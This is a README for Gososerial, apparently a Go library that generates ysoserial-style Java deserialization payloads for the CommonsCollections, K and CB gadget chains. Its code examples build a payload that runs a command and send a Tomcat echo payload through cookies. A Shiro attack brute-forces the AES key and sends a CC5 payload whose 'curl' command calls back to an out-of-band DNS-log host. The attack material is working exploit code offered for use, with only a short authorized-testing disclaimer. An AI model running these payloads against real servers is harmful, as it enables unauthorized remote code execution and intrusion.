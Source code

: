# Gososerial

## 介绍

- ysoserial是java反序列化安全方面著名的工具
  
- 无需java环境，无需下载ysoserial.jar文件
  
- 输入命令直接获得payload，方便编写安全工具

- 目前已支持CC1-CC7，K1-K4和CB1链

- 支持K1和K2的TomcatEcho，HTTP头可自行取名

## Quick Start

- download and import

```shell
go get github.com/EmYiQing/Gososerial
```

- example

```go
package main

import (
	"fmt"
	gososerial "github.com/EmYiQing/Gososerial"
)

func main() {
	var payload []byte
	payload = gososerial.GetCC1("calc.exe")
	fmt.Println(payload)
}
```

- how to use tomcat echo

```go
package main

import (
	gososerial "github.com/EmYiQing/Gososerial"
	"..."
)

func main() {
	// Testecho: expr 10 '*' 10 -> Testecho: expr 10 '*' 10
	// Testcmd: expr 10 '*' 10 -> Testcmd: 100
	payload := gososerial.GetCCK2TomcatEcho("Testecho", "Testcmd")

	req.Cookie = payload
	req.Header["Testecho"] = "gososerial"
	req.Method = "POST"
	resp := httputil.sendRequest(req)

	if resp.Header["Testecho"] == "gososerial" {
		log.Info("find cck2 tomcat echo")
	}
}
```

- shiro scan example

```go
package main

import (
	gososerial "github.com/EmYiQing/Gososerial"
	"..."
)

func main() {
	// Shiro Scan Code
	target := "http://shiro_ip/"
	// Brust Shiro AES Key 
	key := shiro.CheckShiroKey(target)
	if key != nil {
		log.Info("find key: %s", key)
	}
	// Use CommonsCollections5 Payload
	var payload []byte
	payload = gososerial.GetCC5("curl xxxxx.ceye.io")
	// Send Cookies Encrypted By AES
	shiro.SendPayload(key, payload, target)
	// Receive Results Using Dnslog API
	if ceye.CheckResult("your_ceye_token") {
		log.Info("find shiro!")
	}
}
```

## 命令行 (beta)

- CommonsCollections1

![](https://github.com/EmYiQing/Gososerial/blob/master/img/1.png)

- 支持列表

![](https://github.com/EmYiQing/Gososerial/blob/master/img/2.png)

## 感谢

参考xray作者phith0n和koalr师傅的代码

**xray**: https://github.com/chaitin/xray

**phith0n**: https://github.com/phith0n

**ysoserial**: https://github.com/frohoff/ysoserial

**koalr**: https://github.com/zema1/ysoserial

## 免责申明

未经授权许可使用Gososerial攻击目标是非法的

本程序应仅用于授权的安全测试与研究目的